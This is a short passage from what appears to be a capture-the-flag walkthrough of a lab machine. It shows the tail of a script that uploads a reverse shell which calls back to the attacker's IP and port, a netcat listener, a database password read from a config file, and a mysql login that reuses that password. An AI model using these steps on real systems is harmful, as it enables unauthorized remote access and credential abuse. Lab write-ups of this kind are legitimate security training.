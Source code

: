 ```bash

    args = parser.parse_args()

    upload_reverse_shell(args.target_url, args.shell, args.attacker_ip, args.attacker_port)
```

Let’s run this.before that I have netcat listener on

![image.png](../../../assets/permx/image%2020.png)

file uploaded successfully

![image.png](../../../assets/permx/image%2021.png)

got the shell

inside the config there is configuration file where there is db_password: “03F6lY3uXAP2bkW8”

![image.png](../../../assets/permx/image%2022.png)

```bash
mysql -u debian-sys-maint -p 03F6lY3uXAP2bkW8
```
